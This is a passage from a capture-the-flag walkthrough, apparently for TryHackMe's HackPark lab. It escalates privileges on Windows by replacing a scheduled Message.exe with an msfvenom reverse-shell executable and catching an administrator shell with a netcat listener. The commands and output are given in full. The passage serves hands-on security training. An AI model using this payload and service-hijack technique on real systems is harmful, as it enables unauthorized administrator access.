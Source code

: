 In log file, I know that SystemScheduler service run file Message.exe every single minute.

```
c:\Program Files (x86)\SystemScheduler\Events>type 20198415519.INI_LOG.txt
type 20198415519.INI_LOG.txt
08/04/19 15:06:01,Event Started Ok, (Administrator)
08/04/19 15:06:30,Process Ended. PID:2608,ExitCode:1,Message.exe (Administrator)
08/04/19 15:07:00,Event Started Ok, (Administrator)
08/04/19 15:07:34,Process Ended. PID:2680,ExitCode:4,Message.exe (Administrator)
08/04/19 15:08:00,Event Started Ok, (Administrator)
08/04/19 15:08:33,Process Ended. PID:2768,ExitCode:4,Message.exe (Administrator)
08/04/19 15:09:00,Event Started Ok, (Administrator)
```

Let's create file reverse shell using msfvenom named Message.exe

```
┌──(Hades㉿10.11.32.198)-[1.5:41.0]~/walkthrough/tryhackme/hackpark
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.32.198 LPORT=443 -f exe -o Message.exe
```

Upload this file to `SystemScheduler` folder and wait for reverse shell.

```
c:\Program Files (x86)\SystemScheduler>dir
<snip>
04/12/2021  12:03 AM            73,802 Message.exe
03/25/2018  10:58 AM           536,992 Message.exe.1
```

At the listener, I have system shell

```
┌──(Hades㉿10.11.32.198)-[1.5:41.1]~/walkthrough/tryhackme/hackpark
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.128.40] 49403
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>cd c:\
cd c:\
c:\>whoami
whoami
hackpark\administrator
```